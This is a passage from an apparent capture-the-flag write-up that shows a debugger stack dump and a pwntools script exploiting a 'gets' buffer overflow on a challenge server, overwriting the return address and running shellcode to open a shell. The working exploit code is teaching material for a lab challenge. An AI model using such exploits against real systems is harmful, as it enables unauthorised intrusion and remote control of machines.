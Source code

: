 ```
0x00007fffffffe710│+0x0000: 0x1be3e93037b0d224	 ← $rsp
0x00007fffffffe718│+0x0008: 0x65eb4ac4ed908384
0x00007fffffffe720│+0x0010: 0x1be3e90041414141 ("AAAA"?)	 ← $rax, $rbp, $r8
0x00007fffffffe728│+0x0018: 0x65eb4ac4ed908384
0x00007fffffffe730│+0x0020: 0x00000000000000f8
0x00007fffffffe738│+0x0028: 0x0000000000000000
0x00007fffffffe740│+0x0030: 0x0000000000000000
0x00007fffffffe748│+0x0038: 0x0000000000000000
0x00007fffffffe750│+0x0040: 0x0000000000000000
0x00007fffffffe758│+0x0048: 0x0000000000000000
0x00007fffffffe760│+0x0050: 0x0000000000000000
0x00007fffffffe768│+0x0058: 0x0000000000000000
0x00007fffffffe770│+0x0060: 0x0000000000000000
0x00007fffffffe778│+0x0068: 0x0000000000000000
0x00007fffffffe780│+0x0070: 0x00007fffffffe7a0  →  "CSR{this-is-not-the-real-flag}\n"
0x00007fffffffe788│+0x0078: 0x0000000000000003
0x00007fffffffe790│+0x0080: 0x00007fffffffe7a0  →  "CSR{this-is-not-the-real-flag}\n"
0x00007fffffffe798│+0x0088: 0x0000555555555176  →  <main+150> test eax, eax
```

This is translated `-0x10` from the write up that incorrectly used Ubuntu 18.04 (libc 2.27).  The method remains unchanged.
 

## Alternative Solutions

### Shellcode after return address (very 90s)

This is closer to 90's buffer overflow/shellcode exploits.  I initially went with the shellcode in the stack frame out of habit--many CTFs use `fgets` or `read` limiting the number of bytes.  But this is all 90s, all `gets`, so putting after the return address should have been the obvious way to do this:

```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'x86_64'
context.log_level = 'INFO'
context.log_file = 'remote.log'
p = remote('chal.cybersecurityrumble.de', 1990)
stack = 0x00007fffffffe7a0

payload  = 2 * b'A'
payload += (0x78 - len(payload)) * b'\0'
payload += p64(stack)
payload += asm(shellcraft.sh())

p.sendlineafter('return.\n',payload)
p.interactive()
```
